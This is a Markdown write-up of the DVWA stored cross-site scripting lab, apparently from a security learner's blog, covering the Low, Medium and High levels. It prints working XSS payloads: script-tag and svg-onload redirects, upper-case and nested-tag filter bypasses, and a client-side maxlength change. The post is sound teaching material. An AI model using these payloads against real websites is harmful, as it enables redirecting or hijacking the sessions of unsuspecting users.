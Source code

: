```yaml
---
title: DVWA - XSS (Stored)
date: 2023-12-17
categories: [CTF, Web Exploitation]
tags: [dvwa, xss, xss-stored, cross-site-scripting, javascript]
img_path: /assets/dvwa/xss_stored
published: true
---
```


## Information

- [How to install dvwa on Kali](https://www.kali.org/tools/dvwa/).
- [Official GitHub repository](https://github.com/digininja/DVWA).

> The DVWA server itself contains instructions about almost everything.

_**Damn Vulnerable Web Application (DVWA)** is a PHP/MySQL web application that is damn vulnerable. Its main goal is to be an aid for security professionals to test their skills and tools in a legal environment, help web developers better understand the processes of securing web applications and to aid both students & teachers to learn about web application security in a controlled class room environment._

_The aim of DVWA is to practice some of the most common web vulnerabilities, with various levels of difficultly, with a simple straightforward interface._

![](dvwa_home.png){: width='70%' }

The DVWA server has **4 different security levels** which can be set as seen below:

![](security_levels.png){: width='70%' }

- **Low**: This security level is completely vulnerable and has no security measures at all. It's use is to be as an example of how web application vulnerabilities manifest through bad coding practices and to serve as a platform to teach or learn basic exploitation techniques.
- **Medium**: This setting is mainly to give an example to the user of bad security practices, where the developer has tried but failed to secure an application. It also acts as a challenge to users to refine their exploitation techniques.
- **High**: This option is an extension to the medium difficulty, with a mixture of harder or alternative bad practices to attempt to secure the code. The vulnerability may not allow the same extent of the exploitation, similar in various Capture The Flags (CTFs) competitions.
- **Impossible**: This level should be secure against all vulnerabilities. It is used to compare the vulnerable source code to the secure source code.

## Cross-Site Scripting (XSS) (Stored)

XSS attacks are a type of injection problem, in which malicious scripts are injected into the otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application using input from a user in the output, without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user's browser has no way to know that the script should not be trusted, and will execute the JavaScript. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by your browser and used with that site. These scripts can even rewrite the content of the HTML page.

The **stored XSS is stored in the database**. The **stored XSS is permanent**, until the database is reset or the payload is manually deleted.

**Objective**: Redirect everyone to a web page of your choosing.

## Security: Low
> _Low level will not check the requested input, before including it to be used in the output text ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_stored/xss_stored_low_source.php))._

1. There are 2 input fields: `Name` and `Message`. Let's start with something simple to see if it works:

    ```javascript
    <script>alert("XSS")</script>
    ```

    ![](low_test.png)

2. Let's try the payload we used in both previous sections, [DOM](https://cspanias.github.io/posts/DVWA-XSS-(DOM)/) and [Reflected](https://cspanias.github.io/posts/DVWA-XSS-(Reflected)/) XSS, but this time instead of stealing the cookie we will redirect the users to another site:

    ```javascript
    <script>window.location='https://cspanias.github.i
    ```

3. So it seems that a character limit is set for both fields that does not allows us to input our payload. We can modify the character length as follows:

    ![](max_length.png)

    The `maxlength` is set to 50 characters, so let's change that to 250:

    ![](max_length_250.png)

4. Let's try inserting our payload again:

    ```javascript
    <script>window.location='https://cspanias.github.io/'</script>
    ```

    Once we press enter:

    ![](low_redirection.png)

    Now, if we go back to DVWA home, and we click on the `XSS (Stored)` tab, we will be automatically redirected to https://cspanias.github.io.

5. For clearing the guestbook, we need to go to the DVWA homepage and change the security level to Impossible. Once this is done, we can safely go to the XSS (Stored) tab and clear the guestbook:

    ![](clear_guestbook_1.png)

    ![](clear_guestbook_2.png)

## Security: Medium
> _The developer had added some protection, however hasn't done every field the same way ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_stored/xss_stored_medium_source.php))._

1. This time the developer has put a great effort in sanitizing the `Message` field, but not so much the `Name` field. For the latter, the `<script>` tag is getting removed, so we can try any of the methods used on the [XSS (Reflected)](https://cspanias.github.io/posts/DVWA-XSS-(Reflected)/#security-medium) task, after first changing the field's `maxlength`:

    ![](medium_max_length.png)

    ```javascript
    <svg/onload=window.location='https://cspanias.github.io/'>
    ```

    ```javascript
    <SCRIPT>window.location='https://cspanias.github.io/'</script>
    ```

    ```javascript
    <scr<script>ipt>window.location='https://cspanias.github.io/'</script>
    ```

    ![](low_redirection.png)
    
## Security: High
> _The developer believe they have disabled all script usage by removing the pattern `<s*c*r*i*p*t` ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_stored/xss_stored_high_source.php))._

1. This time the developer changed the blacklisted pattern to `<s*c*r*i*p*t`, exactly like the High level of the [XSS (Reflected)](https://cspanias.github.io/posts/DVWA-XSS-(Reflected)/#security-medium) task. This blocks our last two attacks from the Medium level as they include the `<script>` tag, but not the first one:

    ```javascript
    <svg/onload=window.location='https://cspanias.github.io/'>
    ```

    ![](low_redirection.png)

    > Don't forget to increase the value of the `maxlength` variable.

## Security: Impossible
> _Using inbuilt PHP functions, such as [`htmlspecialchars()`](https://secure.php.net/manual/en/function.htmlspecialchars.php), its possible to escape any values which would alter the behaviour of the input ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_stored/xss_stored_impossible_source.php))._

## Resources

- Cryptocat's [video walkthrough](https://www.youtube.com/watch?v=P1I9UGpGdrU).
- OWASP's [Cross Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/).
- GitHub's [XSS Payload List](https://github.com/1N3/IntruderPayloads/blob/master/FuzzLists/xss_payloads_quick.txt).